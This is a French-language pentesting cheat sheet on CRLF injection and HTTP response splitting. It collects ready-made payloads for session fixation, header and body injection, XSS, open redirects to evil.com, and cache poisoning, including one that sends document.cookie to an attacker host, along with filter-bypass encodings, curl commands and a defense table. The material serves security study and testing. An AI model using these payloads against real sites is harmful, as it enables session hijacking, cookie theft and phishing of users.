

# ↩️ CRLF Injection — HTTP Response Splitting

> [!info] **En 1 phrase**
> CRLF Injection = injecter des caractères **`\r\n`** (CR + LF) dans une entrée reflétée dans un **en-tête HTTP**
> → l'attaquant **écrit de nouveaux en-têtes** (Set-Cookie, Location...) ou **réécrit tout le corps de la réponse**
> → session fixation, XSS, open redirect, cache poisoning.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CRLF%20Injection/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> En HTTP, une ligne d'en-tête se termine par **CRLF** (`\r\n`, décodé depuis `%0d%0a`). Si l'app
> reflète une entrée utilisateur dans un en-tête **sans assainir** les retours à la ligne, on peut
> « fermer » l'en-tête courant et en **fabriquer de nouveaux**. Un double CRLF `\r\n\r\n` ferme la
> section des en-têtes et **ouvre le corps** de la réponse.

---

## 🧱 Le mécanisme

| Élément | Détail |
|---|---|
| `CR` | `\r` (ASCII 13) — retour chariot |
| `LF` | `\n` (ASCII 10) — saut de ligne |
| `CRLF` | `\r\n` — terminateur de ligne officiel du protocole HTTP |
| URL-encodé | `%0d%0a` (ou `%0D%0A`) — décodé par le serveur **avant** d'être utilisé |
| Double CRLF | `%0d%0a%0d%0a` → fin des en-têtes + début du **corps** |

### Où injecter

- **Paramètres URL** reflétés dans un en-tête (`?redirect=`, `?url=`, `?next=`, `?lang=`, `?page=`...).
- **En-têtes reflétés** : `Referer`, `X-Forwarded-For`, `User-Agent`, `Host` (si l'app les renvoie).
- **Redirections** : la valeur du header `Location` construite dynamiquement.
- **Cookies** : une valeur de cookie reflétée dans `Set-Cookie`.
- Tout champ d'une **fonction de log** (login → message d'erreur) renvoyé dans une réponse HTTP.

---

## 💉 Payloads de base

### Session Fixation — injecter un `Set-Cookie`

```url
https://exemple.com/page?lang=en%0d%0aSet-Cookie:%20sessionid=attacker

# Variante GET classique (chercher les points de redirection)
https://exemple.com/redirect?url=/accueil%0d%0aSet-Cookie:%20sessionid=ATTAQUANT;%20path=/
```

```http
# Réponse du serveur — on a posé NOTRE cookie sur la victime
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=en
Set-Cookie: sessionid=attacker
```

> L'attaquant fixe la session (`admin=true`, ou un sessionid connu) → si la victime s'authentifie,
> l'attaquant connaît déjà l'ID → **prise de session**.

### Injection d'un en-tête custom

```url
https://exemple.com/?page=/cible%0d%0aX-Custom-Header: pwned%0d%0aX-Trace: yes
```

```http
HTTP/1.1 200 OK
Set-Cookie: page=/cible
X-Custom-Header: pwned
X-Trace: yes
```

### Injection de contenu arbitraire dans le corps (réponse bidonnée)

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

```http
# Réponse : la 1ère partie est tronquée (Content-Length: 0),
# la 2nde partie est une réponse HTTP COMPLÈTE contrôlée par l'attaquant
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

---

## 🔥 Escalade XSS

> Deux angles : injecter **dans un en-tête** (désactiver X-XSS-Protection + body) ou **réécrire le corps**.

### XSS via corps de réponse injecté (le plus fiable)

```url
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
X-XSS-Protection:0            ← désactivé

23                            ← Padding pour Content-Length:35
<svg onload=alert(document.domain)>
0
```

> [!warning] ⚠️ `X-XSS-Protection:0` ne sert plus sur les navigateurs modernes, mais l'injection
> de corps, elle, marche toujours : le payload `<svg onload=...>` est rendu par le navigateur.

### XSS via en-tête reflété (classique, ex. header reflété)

```http
# Si le serveur reflète un en-tête dans la réponse
%0d%0aContent-Type: text/html%0d%0aX-XSS-Protection: 0%0d%0a%0d%0a<script>alert(document.domain)</script>
```

### Payload minimal multi-usages

```bash
# Set-Cookie + Content-Type + body (combiné)
%0d%0aSet-Cookie:%20sessionid=x%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>

# Open redirect → hameçonnage ou XSS après redirect
%0d%0aLocation:%20https://evil.com/?next=
```

---

## ↩️ Open Redirect via `Location`

```url
https://exemple.com/redirect?url=/accueil%0d%0aLocation:%20https://evil.com
```

```http
HTTP/1.1 200 OK
Location: /accueil
Location: https://evil.com    ← le dernier Location gagne → redirect vers evil.com
```

> Utile pour **hameçonnage** ou pour faire transiter un token/une session vers un domaine contrôlé
> (ex: `Location: //evil.com?steal=TOKEN`).

---

## 🧊 Cache Poisoning / Web Cache Deception

> Le CRLF peut **polluer un cache** (CDN, reverse proxy) : la réponse forgée est stockée et
> **servie à tous les utilisateurs** de la même URL-clé.

| Technique | Comment CRLF aide |
|---|---|
| **Cache poisoning** | Injecter `Content-Length` + un double CRLF → le cache indexe l'URL mais stocke la **réponse de l'attaquant** (page XSS/phishing) |
| **Web Cache Deception** | Combiner l'injection avec une URL qui ressemble à une ressource cachable (`/page.js`, `/avatar`) pour que le proxy mette en cache une réponse contenant des **données sensibles** |
| **Persistance** | Un seul poison → tous les visiteurs suivants reçoivent le contenu malveillant tant que le TTL n'expire pas |

```url
# Poison le cache avec du contenu malveillant sous une URL légitime
https://exemple.com/profile?format=json%0d%0aContent-Type: text/html%0d%0a%0d%0a<script>document.location='https://evil.com/'+document.cookie</script>
```

> [!warning] ⚠️ Tester **en environnement contrôlé uniquement** : le poison reste actif un certain
> temps et touche **tous les utilisateurs** du cache partagé.

---

## 🚫 Bypass de filtres (encodages)

| Variante | Payload | Pourquoi ça peut passer |
|---|---|---|
| Basique | `%0d%0a` | Décodé par le serveur → CRLF réel |
| Casse | `%0D%0A` | Les filtres regex sont parfois sensibles à la casse |
| **Double encodage** | `%250d%250a` | Le serveur décode une fois (→ `%0d%0a`) puis réutilise la valeur → décodage final |
| Triple encodage | `%25250d%25250a` | Encore un décodage de plus côté applicatif |
| **Unicode** (Firefox) | `嘊嘍content-type:text/html嘊嘍location:嘊嘍嘊嘍嘼svg/onload=alert(document.domain()嘾` | U+560A→`\n`, U+560D→`\r`, U+563C→`<`, U+563E→`>` : le navigateur « strip » ces octets en CRLF/`<>` |
| Unicode URL-encodé | `%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28document.domain%28%29%E5%98%BE` | idem |
| Octets bruts | `\r\n` en **POST body** ou dans une valeur d'en-tête | Les filtres ne regardent que les paramètres GET |
| Null byte | `%00%0d%0a` | Un filtre `strstr("%0d%0a")` casse parfois sur `%00` |
| Mélange | `%0a%0d` | Certains parsers acceptent l'ordre inversé |

> [!tip] 💡 **Règle** : si le serveur fait **plusieurs passes de décodage** (URL → unicode → UTF-8),
> chaque passe peut reformer `%0d%0a` et permettre un CRLF à l'étape suivante. Tester systématiquement
> les casse et les niveaux d'encodage.

---

## 🎯 Contextes d'injection

| Contexte | Vecteur | Résultat |
|---|---|---|
| **En-tête HTTP** (reflété) | `%0d%0a` dans une valeur reflétée | En-têtes forgés, XSS |
| **Location / redirect** | `%0d%0aLocation: https://evil.com` | Open redirect, hameçonnage |
| **Set-Cookie** | `%0d%0aSet-Cookie: sessionid=xxx` | Session fixation |
| **Corps de réponse** | Double CRLF `%0d%0a%0d%0a` + HTML | XSS, page de phishing |
| **Meta refresh** | Injecter `%0d%0a<meta http-equiv=refresh content='0;url=https://evil.com'>` | Redirect côté navigateur |
| **Cache** (CDN / reverse proxy) | Réponse forgée sous une URL cachable | Cache poisoning |
| **HTTP/2** | CRLF dans des pseudo-en-têtes/`te: trailers` | HTTP/2 request splitting (cf. labs) |

---

## 🛠️ Outils

### Burp Suite

```text
1. Proxy → intercepter une requête avec un paramètre reflété dans un en-tête.
2. Repeater : remplacer la valeur par un payload CRLF.
3. Décoder/encoder les payloads avec Decoder (URL encode → %0d%0a).
4. Regarder la réponse : en-têtes supplémentaires = vulnérable.
5. Vérifier XSS/redirect avec l'onglet Response → Render / navigateur intégré.
```

### curl

```bash
# Injection dans un paramètre (ouverture du corps)
curl -i "https://exemple.com/?lang=en%0d%0aX-Custom: pwned"

# Double CRLF → corps de réponse contrôlé
curl -i "https://exemple.com/redirect?url=/a%0d%0a%0d%0a<script>alert(1)</script>"

# En-tête injecté via une valeur d'en-tête reflétée
curl -i -H "X-Forwarded-For: 1.2.3.4%0d%0aSet-Cookie: admin=true" https://exemple.com/

# Octets bruts \r\n (Bash/PowerShell) — attention au shell qui les interprète
curl -i "https://exemple.com/?url=/cible"$'\r\n'"Location: https://evil.com"
```

> [!warning] ⚠️ `curl` et `nc` envoient les octets bruts : vérifier que le payload n'est pas mangé
> par le terminal ou les quotes. Préférer l'encodage `%0d%0a` pour la précision.

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Assainir `\r` et `\n`** | Filtrer/supprimer CR et LF dans **toutes** les sorties (en-têtes ET corps) |
| **Encoder les entrées** | Encoder la valeur à la sortie (HTML/URL encode) au lieu de la refléter brute |
| **Ne jamais refléter** | Remplacer toute réflexion d'entrée dans un en-tête par des valeurs canoniques (IDs, libellés serveur) |
| **Validation stricte des URLs** | Redirections : allowlist de domaines/paths, jamais de concaténation brute |
| **API d'en-têtes** | Poser les en-têtes via les frameworks (interdit de concaténer du user input) |
| **Cookies durcis** | `HttpOnly`, `Secure`, `SameSite` + session server-side (limite la session fixation) |
| **En-têtes de sécurité** | `Content-Security-Policy` réduit l'impact d'un XSS issu de CRLF |
| **Surveillance / WAF** | Détecter les patterns `%0d%0a`, `%250d%250a`, `\r\n` dans les requêtes (bypassables) |
| **Tests réguliers** | Fuzzer les points de réflexion (paramètres, headers, cookies, redirects) avec CRLF |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Méthodologie**
> 1. Identifier un **paramètre/header reflété** dans une réponse.
> 2. Tester `%0d%0a` + un marqueur (`X-Test: 1`) → visible dans les en-têtes de réponse = injectable.
> 3. Escalader : Set-Cookie → Location → double CRLF → corps → XSS → cache.
> 4. Tester les **deux casse** (`%0d%0a` et `%0D%0A`) et le **double encodage** `%250d%250a`.

> [!warning] ⚠️ **Pièges classiques**
> - `%0d%0a` **encodé une seule fois est décodé par le serveur** → un filtre qui bloque `%0d%0a`
>   ne bloque rien si le serveur ré-encode/décode en plusieurs passes (`%250d%250a`).
> - Le shell/terminal **interprète** `\r\n` → encoder en `%0d%0a` pour des tests fiables.
> - Le CRLF **brut** dans une requête n'est pas toujours rendu dans l'historique/le terminal → vérifier en hex.
> - Le **dernier `Set-Cookie`/`Location` gagne** souvent → injecter APRÈS la valeur reflétée.
> - Points d'entrée les plus courants : **redirections**, **headers reflétés** (Referer, X-Forwarded-For), **params de tracking**.
> - Sur HTTP/2, la réponse peut être **vérifiée côté client** (grande surface d'erreurs) → tester aussi en HTTP/1.1.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[Open Redirect|↩️ Open Redirect]]
- [[HTTP Request Smuggling|🚂 Smuggling]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — CRLF Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CRLF%20Injection/README.md)
- 🧪 Labs : [PortSwigger — HTTP/2 request splitting via CRLF](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) · [Root-Me — CRLF](https://www.root-me.org/en/Challenges/Web-Server/CRLF)
